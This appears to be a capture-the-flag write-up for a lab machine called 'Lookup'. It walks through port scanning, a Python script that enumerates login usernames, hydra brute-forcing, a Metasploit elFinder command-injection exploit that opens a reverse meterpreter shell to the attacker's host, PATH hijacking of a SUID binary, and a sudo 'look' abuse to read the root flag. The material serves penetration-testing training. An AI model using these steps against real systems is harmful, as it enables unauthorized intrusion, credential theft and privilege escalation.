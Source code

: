 **Difficulty:** Easy  
**Target IP:** 10.10.125.80

---

## 1. Reconnaissance

### `nmap` Scan

```bash
nmap -O -sV <IP_ADDRESS>
```

### Results:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Notes:

- SSH version is modern, likely no default creds or easy vuln—come back to this after web enumeration.
- Apache 2.4.41 might be vulnerable to certain older CVEs—add to research list.

---

## 2. Web Enumeration

**Access via hostname:**

- Target uses virtual hosts, so need to map `10.10.125.80` to `lookup.thm` in `/etc/hosts`.

- Navigating to `http://lookup.thm` presents a login portal.

### Subdomain Enumeration

```bash
gobuster dir -u http://10.10.125.80 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
```

**Results:**

- No useful directories found.

### Username enumeration script (Python):

```python
import requests
from multiprocessing import Pool

target = 'http://lookup.thm/login.php'
username_file = '/usr/share/wordlists/seclists/Usernames/Names/names.txt'

def user_check(name):
    data = {"username": name, "password": "password"}
    try:
        response = requests.post(target, data=data)
        if "Wrong password" in response.text:
            print(f"User found: {name}")
    except requests.RequestException as e:
        print(f"Request error for user {name}: {e}")

def main():
    with open(username_file, 'r') as f:
        users = [line.strip() for line in f]

    with Pool(processes=5) as pool:  # Limit to 5 processes at a time
        pool.map(user_check, users)

if __name__ == "__main__":
    main()
```

### Findings:

- Users found: `admin` and `jose`

---

## 3. Brute Force Login

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-form-post "/login.php:username=^USER^&password=^PASS^:Wrong" -v 
```

**Result:**

```
[80][http-post-form] host: lookup.thm   login: jose   password: [REDACTED]
```

---

## 4. Exploitation

### Initial Access

- **Target Service**: `elFinder Web File Manager v2.1.47`

### Metasploit:

```bash
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection

set RHOSTS files.lookup.thm
set RPORT 80
set LHOST <your tun0 IP>         # (e.g., 10.6.X.X)
set LPORT 4444
set TARGETURI /

run
```

### Outcome:

- Payload executed, reverse `meterpreter` shell obtained.

### Shell Stabilization:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

---

## 5. Privilege Escalation

### Current User:

```bash
whoami
> www-data

id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### SUID binaries enumeration:

```bash
find / -perm -4000 -type f 2>/dev/null
```

### Notable Binaries Found:

- `/usr/sbin/pwm` (custom binary)

---

### Analyzing `/usr/sbin/pwm`

- Running `/usr/sbin/pwm` shows it looks for a `.passwords` file in the current user’s home.

- Trick `pwm` by prepending `/tmp` to `$PATH` and creating a fake `id` script in `/tmp` that spoofs user `think`.

```bash
export PATH=/tmp:$PATH
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=33(think)"' >> /tmp/id
chmod +x /tmp/id
/usr/sbin/pwm
```

- This dumps the contents of `/home/think/.passwords`, revealing a list of potential passwords.

---

## 6. SSH Brute Force (User: think)

Using discovered passwords from `.passwords`, brute-forced SSH for user `think` with Hydra.

### Credentials:

```
[22][ssh] host: lookup.thm   login: think   password: [REDACTED]
```

### Grab the user flag:

```bash
cat /home/think/user.txt
```

---

## 7. Sudo Privilege Escalation

### Check sudo permissions:

```bash
sudo -l
```

### Result:

```
User think may run the following commands on ip-10-10-125-80:
   (ALL) /usr/bin/look
```

### Exploit `/usr/bin/look` to read root flag:

```bash
sudo look '' /root/root.txt
```

---

## Notes:

- `$LFILE` in GTFObins examples is just a placeholder — replace it with the actual target path (e.g., `/root/root.txt`)
- Even without a full root shell, reading the root flag is enough to complete the box.
- Custom binaries with SUID should always be analyzed with `strings`, `file`, and path manipulation techniques.

---

## Lessons Learned:

- Enumeration is key — don't skip username fuzzing or assume one user is enough.
- SUID binaries may be more dangerous than they appear, especially custom ones.
- Always check what a binary depends on (`$PATH`, environment variables, etc.)

[[CTF Notes]]